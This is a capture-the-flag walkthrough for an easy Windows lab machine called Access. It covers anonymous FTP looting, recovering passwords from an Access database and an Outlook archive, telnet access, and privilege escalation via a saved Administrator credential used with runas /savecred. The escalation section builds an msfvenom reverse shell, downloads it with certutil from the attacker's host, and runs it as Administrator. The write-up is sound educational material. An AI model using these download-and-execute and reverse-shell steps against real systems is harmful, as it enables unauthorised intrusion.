

# Access

<div class="wu-meta" markdown="span">
<span class="wu-badge wu-os">:fontawesome-brands-windows: Windows</span>
<span class="wu-badge wu-diff wu-diff--easy">Easy</span>
<span class="wu-tags">
<span class="wu-tag">Anonymous FTP</span>
<span class="wu-tag">MDB loot</span>
<span class="wu-tag">Stored creds</span>
<span class="wu-tag">runas /savecred</span>
</span>
</div>

!!! abstract "What this box demonstrates"
    Access is a classic easy Windows box about credential reuse and stored secrets. Anonymous FTP hands over a Microsoft Access database and a password-protected archive; the database yields a password that unlocks the archive, and an email inside reveals the telnet password. Privilege escalation is a cached credential — the Administrator's password is saved for `runas`, so a reverse shell launched with `/savecred` runs as Administrator.

## Attack path

1. Log into anonymous FTP, pull `backup.mdb` and `Access Control.zip`, and read the Access DB with mdb-tools to recover an archive password.
2. Unzip the archive, read the stored email, and telnet in as `security` with the leaked password.
3. Abuse a saved Administrator credential (`cmdkey`) with `runas /savecred` to run a reverse shell as Administrator.

**Tools:** nmap, ftp, mdb-tools, 7z, readpst, telnet, msfvenom, certutil.

## Enumeration

Set the target and scan:

```bash
IP=10.10.10.98

ports=$(nmap -p- --min-rate=1000 -T4 -n --open $IP | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//') && echo $ports
sudo nmap -p$ports -sC -sV $IP -oA scan_tcp
```

### Nmap results

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
23/tcp open  telnet  Microsoft Windows XP telnetd
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: MegaCorp
```

Three ports, and FTP already advertises anonymous access. Telnet is the likely path to a shell once we have a credential.

## Foothold

Log into FTP anonymously and pull the two interesting files:

```bash
ftp 10.10.10.98      # user: anonymous, any password
ftp> get backup.mdb
ftp> get "Access Control.zip"
```

`backup.mdb` is a Microsoft Access database, readable on Linux with mdb-tools. List the tables, then dump the one that looks like an account store:

```bash
mdb-tables backup.mdb
mdb-export backup.mdb auth_user
# id,username,password,...
# 27,"engineer","access4u@security",...
```

`Access Control.zip` is password-protected, but the `engineer` password unlocks it:

```bash
7z x "Access Control.zip"   # password: access4u@security
```

Inside is an Outlook `.pst`. Convert it and read the message — it announces a password change for the `security` account:

```bash
readpst "Access Control.pst"
# "The password for the security account has been changed to 4Cc3ssC0ntr0ller."
```

Telnet in as `security` and collect the user flag:

```bash
telnet 10.10.10.98        # security : 4Cc3ssC0ntr0ller
```

## Privilege escalation

Windows caches credentials for `runas`. List them:

```
C:\Users\Public> cmdkey /list

    Target: Domain:interactive=ACCESS\Administrator
    Type: Domain Password
    User: ACCESS\Administrator
```

<figure class="wu-evidence" markdown>

<figcaption><code>cmdkey /list</code> confirms that Windows has a reusable Administrator credential stored for the current session.</figcaption>
</figure>

The Administrator credential is stored, so `runas /savecred` will run a process as Administrator without knowing the password. Build a reverse shell, host it, pull it onto the target, and launch it with the saved credential:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.13 LPORT=4443 -f exe > winshell.exe
```

```
certutil -urlcache -f http://10.10.14.13:8000/winshell.exe run.exe
runas /savecred /user:ACCESS\Administrator "C:\Users\Public\run.exe"
```

Catch the shell on your listener — it runs as Administrator, and the root flag is on the Administrator desktop.
